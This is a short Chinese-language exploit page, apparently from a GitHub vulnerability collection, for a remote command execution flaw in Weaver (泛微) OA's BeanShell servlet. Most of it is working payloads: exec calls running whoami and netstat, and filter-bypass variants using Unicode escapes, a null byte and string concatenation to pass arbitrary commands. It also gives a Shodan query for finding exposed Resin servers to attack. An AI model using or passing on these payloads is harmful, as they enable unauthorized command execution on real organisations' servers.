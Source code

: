 泛微OA命令执行漏洞

 漏洞URL：http://oa.www.com/weaver/bsh.servlet.BshServlet

![img](images/90920224621.jpeg)

漏洞exp 

payload1

`bsh.script=exec("whoami");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw`

payload2 bypass

`bsh.script=ex\u0065c("whoami");;&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw`

payload3 bypass

`bsh.script=\u0065\u0078\u0065\u0063("whoami");`

poc 1 

`bsh.script=\u0065\u0078\u0065\u0063("netstat -ano");;&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw`

Poc2: 

`bsh.script=\u0065\u0078\u0065\u0063("whoami");&bsh.servlet.output=raw`

Poc3： `bsh.script=eval%00("ex"%2b"ec(bsh.httpServletRequest.getParameter("command"))");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&command=whoami`

![img](images/clipboard.png)

搜索引擎搜索

https://www.shodan.io/search?query=Server%3A+Resin%2F3.1.8 

![img](images/clipboard-1584066550312.png)

参考资料 https://www.t00ls.net/thread-52924-1-1.html https://github.com/jas502n/e-cology


